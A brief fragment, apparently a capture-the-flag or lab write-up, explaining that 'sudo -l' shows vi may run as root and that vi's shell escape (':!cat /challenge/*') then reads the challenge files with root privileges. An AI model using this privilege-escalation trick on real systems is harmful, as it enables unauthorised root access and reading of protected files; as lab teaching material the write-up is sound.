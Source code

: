 sudo -l reveal we can run `vi` with sudo,
use vi to execute command as root,
`esc` and execute the following command:
`!cat /challenge/*`
